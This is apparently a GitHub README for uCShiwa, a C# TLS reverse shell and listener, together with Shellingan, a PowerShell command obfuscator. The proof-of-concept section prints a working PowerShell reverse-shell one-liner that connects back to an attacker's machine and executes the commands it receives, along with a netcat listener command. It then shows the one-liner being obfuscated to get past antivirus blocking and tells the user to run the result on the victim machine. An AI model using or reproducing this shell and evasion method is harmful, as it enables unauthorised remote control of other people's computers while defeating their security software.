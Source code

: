 # uCShiwa
- TLS encrypted reverseshell and listener in C#
- Obfuscation script in PowerShell.

![exemple1](https://github.com/Aif4thah/uCShiwa/blob/main/POC-v2-windows.PNG)

## Help & Documentation

Execute it without any options to print help

## Linux

Use the .NET Core to run the listener from Linux

![exemple2](https://github.com/Aif4thah/uCShiwa/blob/main/POC-v2-linux.PNG)

## Disclamer

Consider online pfx file as compromised, use you own certificates !

## Powershell (beta)

`pwsh 1` to switch in powershell mode

## Using the Standalone Shellingan.ps1

This script is a simple recursive PowerShell command obfuscation function

### Import

```powershell
. .\shellingan.ps1
```

### Hello World 

```powershell
Invoke-Shellingan -cmd 'write helloworld' -iex $true -recurse 1
```
Then you just have to copy-paste the output where you want execute it.

### Proof Of Concept

![exemple2](https://github.com/Aif4thah/uCShiwa/blob/main/POC-Shellingan.png)

From your attack machine:
```console
nc64.exe -lnvp <port>
```

```powershell
$c=nEw-ObjeCt SYsTEm.nET.SOcKetS.tcpcLIENT((wRiTe-oUtpuT <attacking machine>),<port>);$s=$c.gETsTrEaM();[BYtE[]]$b=0..65535|%{0};wHILe(($i=$s.rEAd($b,0,$b.LENgTh))-NE0){$a=(NEw-oBJeCT -tYPenAME sYSteM.tEXT.aScIieNcOdInG).gETsTRIng($b,0,$i);$k=(iEX $a 2>&1|oUt-stRInG);$z=$k+(WrITe-OuTPut `>);$d=([teXT.eNcODiNg]::aSCii).gETByTEs($z);$s.wRiTE($d,0,$d.LEnGtH);$s.fLuSH()};$c.cLoSE()
```

```console
This script contains malicious content and has been blocked by your antivirus software.
```

```powershell
Invoke-Shellingan -iex $true -cmd '$c=nEw-ObjeCt SYsTEm.nET.SOcKetS.tcpcLIENT((wRiTe-oUtpuT <ip>),<port>);$s=$c.gETsTrEaM();[BYtE[]]$b=0..65535|%{0};wHILe(($i=$s.rEAd($b,0,$b.LENgTh))-NE0){$a=(NEw-oBJeCT -tYPenAME sYSteM.tEXT.aScIieNcOdInG).gETsTRIng($b,0,$i);$k=(iEX $a 2>&1|oUt-stRInG);$z=$k+(WrITe-OuTPut `>);$d=([teXT.eNcODiNg]::aSCii).gETByTEs($z);$s.wRiTE($d,0,$d.LEnGtH);$s.fLuSH()};$c.cLoSE()'
```

output:
```powershell
<O> SHELLINGAN : Simple Recursive Powershell Command Obfuscation - for training purpose
|
<cmd> : $c=nEw-ObjeCt SYsTEm.nET.SOcKetS.tcpcLIENT...
<iex> : True
<rec> : 0
|
<O> SHELLINGAN:
$186=255;$208=[SYStEM.TexT.ENCoDiNg];$102=$208::Utf8.gETByTeS('');$208::AsCii.GetString($(([bytE]55,86,80,97...
```
Copy and Execute the output on the victim machine to get your reverse shell !

### Shellingan Options

```console
-cmd: Mandatory
-iex: add invoke-expression (usefull to execute your commands)
-recurse: number of obfuscation loop (increase output length!)
```

